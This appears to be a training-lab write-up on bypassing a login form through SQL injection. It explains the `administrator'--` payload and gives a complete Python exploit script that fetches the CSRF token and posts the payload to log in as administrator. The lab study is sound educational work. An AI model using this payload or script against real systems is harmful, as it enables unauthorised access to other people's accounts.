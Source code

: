 ```yaml
---
title: '02 SQLi Lab'
description: 'Bypassing authentication through classic SQL injection on a vulnerable login form.'
---
```



## SQL injection vulnerability allowing login bypass

<div style="text-align: justify;">
  In this lab, I exploited a classic SQL injection vulnerability in a login form to bypass authentication. By injecting malicious input directly into the username field, I was able to manipulate the backend SQL query and log in as the administrator—without needing the actual password. This vulnerability highlights the critical importance of sanitizing user input and using parameterized queries to prevent injection attacks.

  The bypass was achieved using a simple payload that comments out the password check portion of the SQL query. It was also essential to dynamically extract the CSRF token from the login page, as the application enforced token-based protection for form submissions.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The login form input is vulnerable to SQL injection.
- Use a crafted username: `administrator'--` to bypass password validation.
- The server executes a manipulated SQL query and logs you in as the administrator.
- CSRF token is fetched dynamically to make a valid login attempt.
- A successful login is confirmed when the usual "Invalid username or password" error does not appear.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def get_csrf_token(s, url):
    uri = "/login"
    r = s.get(url + uri , verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf = soup.find("input") ['value']
    return csrf

def exploit_sqli(s, url, payload):
    csrf = get_csrf_token(s, url)
    data = {"csrf": csrf,
            "username": payload,
            "password": payload}
    uri = "/login"
    r = s.post(url + uri, data=data, verify=False, proxies=proxies)
    res = r.text
    
    if "Invalid username or password." in res:
        return False
    else:
        return True
    
if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        sqli_payload = "administrator'--"
    except IndexError:
        print("[-] Usage: %s <url>" %sys.argv[0])
        print('[-] Example: %s www.example.com' %sys.argv[0])
        
    s = requests.Session()
    
    if exploit_sqli(s, url, sqli_payload):
        print("[+] SQL injection successful! We have logged in as the administrator user.")
    else:
        print("[-] SQL injection unsuccessful.")
```


<Comment />
